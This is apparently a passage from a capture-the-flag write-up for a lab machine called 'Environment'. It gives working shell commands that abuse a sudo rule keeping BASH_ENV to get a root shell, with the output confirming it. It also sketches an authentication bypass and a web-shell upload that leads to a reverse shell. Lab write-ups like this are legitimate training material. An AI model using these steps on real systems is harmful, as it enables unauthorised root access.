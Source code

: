 It can be seen that `env_keep` retains the two environment variables `ENV` and `BASH_ENV`, so it can be used to bypass
```
hish@environment:~$ echo 'bash -p' > exp.sh
hish@environment:~$ chmod +x exp.sh
hish@environment:~$ sudo BASH_ENV=./exp.sh /usr/bin/systeminfo
root@environment:/home/hish# id
uid=0(root) gid=0(root) groups=0(root)
root@environment:/home/hish# 
```

# Description
This machine, as its name suggests, is related to the environment.

For user shell, exploit `App::environment() == "preprod"` to passby the authentication.
Then upload the web shell to get the reverse shell as `www-data`
Enumerating the file system, decrypte the message to get the valid credit of user `hish`

For root shell, by changing the `/usr/bin/systeminfo` environment variable, use `sudo` to elevate privileges.